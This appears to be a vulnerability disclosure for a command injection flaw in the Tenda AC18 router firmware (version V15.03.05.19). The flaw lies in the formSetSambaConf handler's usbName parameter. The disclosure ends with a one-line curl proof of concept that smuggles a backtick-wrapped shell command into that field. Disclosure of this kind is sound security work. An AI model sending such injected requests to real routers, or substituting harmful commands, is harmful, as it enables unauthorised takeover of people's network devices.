



## Tenda AC18 command injection

### Overview

* Vendor: Tenda

* Product: Tenda AC18
* Version: V15.03.05.19(6318)

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC18/ac18_kf_V15.03.05.19(6318_)_cn.zip

### Vulnerability details

Tenda AC18 V15.03.05.19(6318) was found to contain a command injection vulnerability in the `formSetSambaConf` function via the `usbName` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.





#### PoC

```
curl http://192.168.0.1/goform/SetSambaCfg?action=del&usbName=`touch%20/tmp/2.txt`
```


